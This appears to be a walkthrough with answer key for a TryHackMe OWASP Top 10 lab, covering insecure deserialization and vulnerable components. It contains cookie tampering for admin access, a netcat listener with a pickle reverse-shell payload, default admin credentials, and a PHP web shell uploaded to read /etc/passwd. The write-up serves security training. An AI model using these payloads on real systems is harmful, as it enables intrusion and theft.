 - Read this section.
- Question `What is the name of the base-2 formatting that data is sent across a network as?` Answer `binary`
## [Severity 8] Insecure Deserialization - Cookies

- Read this section carefully.
- Question `If a cookie had the path of webapp.com/login , what would the URL that the user has to visit be?` Answer `webapp.com/login/`
- Question `What is the acronym for the web technology that Secure cookies work over?` Answer `https`
## [Severity 8] Insecure Deserialization - Cookies Practical

- Open `http://machine_ip/register`, create a account and login.
- Press `CTRL+SHIFT+I` and goto Storage section to read and edit cookies.
- Copy value of `sessionId` cookie and decode it with base64 decoder. Command to decode base64, `echo "gAN9cQAoWAkAAABzZXNzaW9uSWRxAVggAAAAN2Y1MWRiYWFhZjY2NDYwMzkyNTNiNTlkOTY3NTAwYWVxAlgLAAAAZW5jb2RlZGZsYWdxA1gYAAAAVEhNe2dvb2Rfb2xkX2Jhc2U2NF9odWh9cQR1Lg==" |base64 -d`. You will get the first flag.
- Question `1st flag (cookie value)` Answer `THM{good******se64_huh}`
- Then edit `userType` cookie value to `admin` from `user` and reload the page and it will redirect to the admin page and show the flag.
- Question `2nd flag (admin dashboard)` Answer `THM{heres******in_flag}`
## [Severity 8] Insecure Deserialization - Code Execution

- Start listner to listen with `nc -lvp 4444` command.
- Change cookie `userType` value to `user` from `admin`. Open `http://machine_ip/myprofile`, then click on `Exchange on vim` and after that `feedback`. Give feedback.
- We need to follow instructions carefully. First we need to change download [pickleme.py](https://assets.tryhackme.com/additional/cmn-owasptopten/pickleme.py) and  "YOUR_TRYHACKME_VPN_IP" with your TryHackMe VPN IP. To get IP of TryHackMe you can use `ifconfig tun0 |grep destination |cut -d" " -f10` command. Then run the python script with `python3 pickleme.py`. Copy the cookie and add a cookie with that value, name it `encodedPayload`. Reload feedback page. You will get a netcat shell. You can read flag using `cat ../flag.txt` command.
- Question `flag.txt` Answer `4a69a7***fd68`
## [Severity 9] Components With Known Vulnerabilities - Intro

- Read Instructions and click on Complete.
## [Severity 9] Components With Known Vulnerabilities - Exploit

- Read Instructions and click on Complete.
## [Severity 9] Components With Known Vulnerabilities - Lab

- If any machine is running, terminate that machine first. Then Start this Machine. Copy Target IP from "Target Machine Information".
- When we open `http://machine_ip`, we get link to `http://machine_ip/admin.php` and `projectworlds.in` link. After searching bookstore on `projectworlds.in`, we get this page https://projectworlds.in/free-projects/php-projects/online-book-store-project-in-php/ with default credential username: admin@admin.com password: admin.
- After logging into admin panel, we can upload our shell by editing any book. Shell code, `<?php system('wc -c /etc/passwd'); ?>` in shell.php. After going to edit book, upload shell.php with `change` button.
- Now to find the shell, open location of image. You can find all images in `/bootstrap/img` directory. Just open the directory in the link, you can get your uploaded shell there, `http://machine_ip/bootstrap/img/shell.php`. If you open the page, it will compile and execute the code to display character number of `/etc/passwd`.
- Question `How many characters are in /etc/passwd (use wc -c /etc/passwd to get the answer)` Answer `1611`